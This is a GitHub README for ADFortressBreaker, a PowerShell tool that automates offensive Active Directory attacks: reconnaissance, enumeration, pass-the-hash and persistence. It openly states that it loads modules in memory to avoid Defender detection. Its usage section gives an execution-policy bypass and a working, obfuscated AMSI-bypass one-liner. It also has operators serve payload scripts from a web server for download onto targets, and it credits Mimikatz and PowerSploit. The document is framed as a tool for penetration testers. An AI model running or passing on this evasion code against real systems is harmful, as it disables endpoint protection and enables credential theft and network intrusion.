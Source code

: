 <h1 align=center> ADFortressBreaker </h1>

![Default_fortress_breaker_logo_microsoft_windows_cybersecurity_1_b2db1a2f-aaee-41f3-85a0-d73527e5ce6e_0](https://github.com/m4rkh4ck/ADFortressBreaker/assets/92309458/08f54524-3a96-41a0-b294-da0514c611fd)

<h1 align=center><br><img src= https://img.shields.io/badge/Language-Powershell-blue> <img src= https://img.shields.io/badge/Version-v1.0-green> <a href= "https://www.linkedin.com/in/%F0%9F%92%BE-diego-marcaccio-06431970/"><img src= https://img.shields.io/badge/Follow-m4rkh4ck-black> <a href= "https://www.linkedin.com/in/antonio-migliuolo-723598207/"><img src= https://img.shields.io/badge/Follow-synackid-white></h1>

## About ADFortressBreaker
The script has been written to help Ethical Hackers to execute the most common command in a Penetration Test in Active Directory environment without write any line of code.
It's written to leave as few traces as possible, so all the module will be loaded directly in memory to avoid defender interception.

## Usage
Before launching AdFortressBreaker it is necessary to bypass powershell execution policy:
```
powershell -ep bypass
```
Then you have to bypass the AMSI control:
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Import the module:
```
. .\ADFortressBreaker.ps1
```

Execute:
```
Invoke-ADFortressBreaker
```

After that the user have to start a web server on port 8000 on his machine.



```
           _____  ______         _                     ____                 _
     /\   |  __ \|  ____|       | |                   |  _ \               | |
    /  \  | |  | | |__ ___  _ __| |_ _ __ ___  ___ ___| |_) |_ __ ___  __ _| | _____ _ __
   / /\ \ | |  | |  __/ _ \| '__| __| '__/ _ \/ __/ __|  _ <| '__/ _ \/ _ | |/ / _ \ '__|
  / ____ \| |__| | | | (_) | |  | |_| | |  __/\__ \__ \ |_) | | |  __/ (_| |   <  __/ |
 /_/    \_\_____/|_|  \___/|_|   \__|_|  \___||___/___/____/|_|  \___|\__,_|_|\_\___|_|


1) Reconnaissance
2) Enumeration
3) PassTheHash
4) Persistence
5) Exit


[*] Start a web server on your machine (exposed on port 8000) to download the .ps1 file

[*} Example: python3 -m http.server

[*] Set the web server ip address :

```

In the main menu the user can choose the activity to do simply by typing the corresponding number and pressing enter.

## Credits
To implement ADFortressBreaker we used the following tools: <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">Powerview.ps1</a> <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1">PowerUp.ps1</a> <br>
- <a href= "https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1">SharpHound.ps1</a><br> 
- <a href= "https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1">ASREPRoast.ps1</a><br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1">Invoke-Mimikatz.ps1</a><br> 
